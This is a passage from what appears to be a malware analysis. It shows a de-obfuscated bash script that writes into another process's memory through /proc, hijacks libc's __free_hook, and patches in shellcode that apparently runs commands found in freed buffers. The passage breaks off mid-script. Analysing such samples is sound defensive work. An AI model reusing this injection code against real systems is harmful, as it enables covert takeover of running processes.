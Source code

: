 Obfuscated shell variables, base64-encoded strings, and possible shell code point to this script
as potentially malicious. After some de-obfuscation, the script looks like this:

```bash linenums="1"
#!/bin/bash

set -e

pack_addr() {
	for i in $(seq 0 7); do
		curr=$(($1 >> $i*8 & 0xff))
		packed="$packed$(printf '\\x%02x' $curr)"
	done

	echo $packed
}

find_addr() {
    echo $((0x$(nm -D "$1" | sed 's/@.*//' | grep -E " $2$" | cut -d ' ' -f1)))
}

mem_write() {
    echo -ne "$3" | dd of="/proc/$1/mem" bs=1 "seek=$2" conv=notrunc 2>/dev/null
}

patch_shellcode() {
    code="$1"
    from=$(echo "$2" | sed 's/\\/\\\\/g')
    to=$(echo $3 | sed 's/\\/\\\\/g')

    echo $code | sed "s/$from/$to/g"
}

expand() {
    echo "$1" | base64 -d | gzip -d
}

exploit() {
    target_PID="$1"

    libc_info=$(grep -E "/libc.*so$" "/proc/$target_PID/maps" | head -n 1 | tr -s ' ')
    libc_base=$((0x$(cut -d '-' -f1 <<< "$libc_info")))
    libc_filename=$(cut -d ' ' -f6 <<< "$libc_info")

    free_hook_addr=$((libc_base+$(find_addr $libc_filename __free_hook)))
    system_addr=$((libc_base+$(find_addr $libc_filename system)))
    free_addr=$((libc_base+$(find_addr $libc_filename free)))
    malloc_usable_addr=$((libc_base+$(find_addr $libc_filename malloc_usable_size)))

    libc_exec_addr=$((0x$(grep -E "/libc.*so$" "/proc/$target_PID/maps" | grep 'r-xp' | head -n 1 | tr -s ' ' | cut -d ' ' -f1 | cut -d '-' -f2)))

    shellcode='\x48\xb8\x41\x41\x41\x41\x41\x41\x41\x41\x41\x55\x49\xbd\x43\x43\x43\x43\x43\x43\x43\x43\x41\x54\x49\x89\xfc\x55\x53\x4c\x89\xe3\x52\xff\xd0\x48\x89\xc5\x48\xb8\x44\x44\x44\x44\x44\x44\x44\x44\x48\xc7\x00\x00\x00\x00\x00\x48\x83\xfd\x05\x76\x61\x80\x3b\x63\x75\x54\x80\x7b\x01\x6d\x75\x4e\x80\x7b\x02\x64\x75\x48\x80\x7b\x03\x7b\x75\x42\xc6\x03\x00\x48\x8d\x7b\x04\x48\x8d\x55\xfc\x48\x89\xf8\x8a\x08\x48\x89\xc3\x48\x89\xd5\x48\x8d\x40\x01\x48\x8d\x52\xff\x8d\x71\xe0\x40\x80\xfe\x5e\x77\x1b\x80\xf9\x7d\x75\x08\xc6\x03\x00\x41\xff\xd5\xeb\x0e\x48\x83\xfa\x01\x75\xd4\xbd\x01\x00\x00\x00\x48\x89\xc3\x48\xff\xc3\x48\xff\xcd\xeb\x99\x48\xb8\x42\x42\x42\x42\x42\x42\x42\x42\x4c\x89\xe7\xff\xd0\x48\xb8\x55\x55\x55\x55\x55\x55\x55\x55\x48\xa3\x44\x44\x44\x44\x44\x44\x44\x44\x58\x5b\x5d\x41\x5c\x41\x5d\xc3'
    shellcode=$(patch_shellcode $shellcode '\x41\x41\x41\x41\x41\x41\x41\x41' $(pack_addr $malloc_usable_addr))
```